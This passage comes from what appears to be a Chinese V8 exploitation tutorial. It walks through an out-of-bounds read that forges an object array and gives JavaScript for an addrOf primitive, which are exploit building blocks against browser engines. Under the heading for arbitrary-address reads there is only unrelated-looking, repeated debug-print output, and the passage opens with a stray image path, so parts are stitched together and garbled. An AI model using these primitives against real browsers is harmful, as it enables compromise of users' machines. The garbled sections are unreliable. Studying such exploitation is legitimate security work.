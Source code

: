 ```js
  Utils.InitEnumCache(object1);
  Utils.AllocateInOldSpace(0x72, 0x60, 0x00, 0x00);
  readline();
});
%DebugPrint(vul);
```

当其越界访问到了 `doubleArr[1]` 处的地址，那么将会以它为地址去读取对应的值，而如果 `doubleArr[1]` 的低 4 字节正好指向了 `doubleArr[2]` ，而我们又将此处伪造成了一个对象数组，那么最终就会返回一个对象数组：

![](/img/chapter8/debugvul.png)

> 这里因为 Debug 版的检查会导致崩溃，但是这个问题在 Release 下不会发生，可被直接视为一个正常对象。

在 Release 下会是这样的：

![](/img/chapter8/releasevul.png)

> 代码有改动，因此调试的时候地址可能会有微妙的变化
> 代码中需要改动的部分包括：
> -  `AllocateInOldSpace` 的参数，用于确定偏移
> - `con_buf` ：值为 `element` 对象的地址

## 构造 AddressOf 原语

有了上一步构造出的数组，这一节的工作就非常轻松了：

```js
function addrOf(obj) {
    vul[0]=obj;
    return d2u(doubleArr[4]);
}
```

由于我们在设定 `vul` 的 `element` 指针正好为 `doubleArr[4]` ，因此直接写入并读取即可。

## 构造任意地址读


  [0]: 0x93700002a21: [String] in ReadOnlySpace: #a (const data field 0:s, p: 4, attrs: [WEC]) @ Any
  [1]: 0x93700002a31: [String] in ReadOnlySpace: #b (const data field 1:s, p: 3, attrs: [WEC]) @ Any
  [2]: 0x93700002a41: [String] in ReadOnlySpace: #c (const data field 2:s, p: 2, attrs: [WEC]) @ Any
  [3]: 0x93700002a51: [String] in ReadOnlySpace: #d (const data field 3:s, p: 1, attrs: [WEC]) @ Any
  [4]: 0x93700002a61: [String] in ReadOnlySpace: #e (const data field 4:s, p: 0, attrs: [WEC]) @ Any
  [0]: 0xf6100002a21: [String] in ReadOnlySpace: #a (const data field 0:s, p: 0, attrs: [WEC]) @ Any
  [0]: 0x123a00002a21: [String] in ReadOnlySpace: #a (const data field 0:s, p: 2, attrs: [WEC]) @ Any
  [1]: 0x123a00002a31: [String] in ReadOnlySpace: #b (const data field 1:s, p: 1, attrs: [WEC]) @ Any
  [2]: 0x123a00002a41: [String] in ReadOnlySpace: #c (const data field 2:s, p: 0, attrs: [WEC]) @ Any
  [0]: 0x123a00002a21: [String] in ReadOnlySpace: #a (const data field 0:s, p: 2, attrs: [WEC]) @ Any
  [1]: 0x123a00002a31: [String] in ReadOnlySpace: #b (const data field 1:s, p: 1, attrs: [WEC]) @ Any
  [2]: 0x123a00002a41: [String] in ReadOnlySpace: #c (data field 2:d, p: 0, attrs: [WEC]) @ Any
  [0]: 0x123a00002a21: [String] in ReadOnlySpace: #a (const data field 0:s, p: 2, attrs: [WEC]) @ Any
  [1]: 0x123a00002a31: [String] in ReadOnlySpace: #b (const data field 1:s, p: 1, attrs: [WEC]) @ Any
  [2]: 0x123a00002a41: [String] in ReadOnlySpace: #c (const data field 2:s, p: 0, attrs: [WEC]) @ Any